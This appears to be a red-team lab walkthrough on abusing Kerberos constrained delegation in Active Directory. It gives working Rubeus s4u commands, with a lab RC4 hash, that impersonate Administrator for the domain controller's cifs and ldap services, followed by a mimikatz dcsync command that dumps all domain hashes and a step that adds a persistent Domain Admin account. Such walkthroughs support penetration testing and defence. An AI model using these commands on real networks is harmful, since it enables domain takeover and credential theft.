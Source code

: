 # Constrained Delegation Abuse

⇒ So if you have compromised a **`user account`** / **`system`** on a **`machine`** that is allowed to **`delegate`** to Domain Controller's **`cifs`** / **`ldap`** service we can abuse that to own the domain controller.

- Refer to the lab creation: [Kerberos Constrained Delegation Lab Creation](../Lab%20Creation/Kerberos%20Constrained%20Delegation%20Lab%20Creation)

---

## Explaining the Attack

⇒ **msDS-AllowedToDelegateTo** :

- For a given computer or user account, this attribute specifies the list of service principal names (SPN) corresponding to Windows services that can act on behalf of the computer or user account.

⇒ So here user enox is **`allowedtodelegate`** to **`impersonate`** as any user to the **`SPNs`** set as show in the screenshot [ i.e **`ldap`** and **`cifs`** ]

```python
get-netuser | ?{$_.cn -like "naqi"} | select msds-allowedtodelegateto  -ExpandProperty msds-allowedtodelegateto
```

![Constrained%20Delegation%20Abuse/Untitled.png](Constrained%20Delegation%20Abuse/Untitled.png)

- So basically we can authenticate to **ldap** and **cifs** services ****on **VDC01** machine as any user we want.

### ⇒ **S4U** ( Service-For-User ) :

- So **`S4U`** is a set of kerberos extensions, which were implemented by Microsoft to avoid unconstrained delegations to run wild.
- So the **`s4u2fself`** extension allows a service to request forwardable service tickets to itself on behalf of a particular user. This was implemented so that a user authenticate to a service somewhat not using Kerberos.
- The extensions **`s4u2proxy`** allows the service account to use the forwardable ticket to request a service ticket to the SPN specified in msds-allowedtodelegateto.

[ NOTE: This is only possible if the user has TRUSTED_TO_AUTH_FOR_DELEGATION flag set]

---

## Performing The Attack

⇒ So to perform this attack we will be using Rubeus.exe tool which is a C# toolset for raw Kerberos interaction and abuses. 

- It hash s4u abuse extension which we can use to perform this attack

Tool : [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

⇒ So as we saw previously we are allowed to delegate to :

- ldap
- cifs

⇒ We will be showing how to abuse both of the services to compromise the domain controller.

- First we will start with getting rc4 hash of the user :

![Constrained%20Delegation%20Abuse/Untitled%201.png](Constrained%20Delegation%20Abuse/Untitled%201.png)

RC4: `**58A52D36C84FB7F5F1BEAB9A201DB1DD**`

### ⇒ cifs/vdc01.endark.local :

- Now we will impersonate as Administrator user and request a ticket to **`cifs`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:cifs/vdc01.endark.local /ptt
```

![Constrained%20Delegation%20Abuse/Untitled%202.png](Constrained%20Delegation%20Abuse/Untitled%202.png)

![Constrained%20Delegation%20Abuse/Untitled%203.png](Constrained%20Delegation%20Abuse/Untitled%203.png)

- No winrm or mimikatz using “**`cifs`**” . So we will instead create a user and add it to domain admins group :

![Constrained%20Delegation%20Abuse/Untitled%204.png](Constrained%20Delegation%20Abuse/Untitled%204.png)

![Constrained%20Delegation%20Abuse/Untitled%205.png](Constrained%20Delegation%20Abuse/Untitled%205.png)

Next you could just use RunAs or WinRm to the Domain Controller to get shell as the user we created and added to Domain Admins and run mimikatz to dump hashes for persistence.

### ⇒ **ldap/vdc01.endark.local** :

- Impersonating as Administrator user and getting a ticket for **`ldap`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:ldap/vdc01.endark.local /outfile:dc.kirbi
```

![Constrained%20Delegation%20Abuse/Untitled%206.png](Constrained%20Delegation%20Abuse/Untitled%206.png)

- Next we will just use the ticket with **mimikatz** to perform dcsync attack to dump all the hashes in the domain :

```python
.\mimikatz.exe "kerberos::ptt dc_ldap_vdc01.endark.local.kirbi" "lsadump::dcsync /all /csv" "exit"
```

![Constrained%20Delegation%20Abuse/Untitled%207.png](Constrained%20Delegation%20Abuse/Untitled%207.png)

---

References : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) and [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation)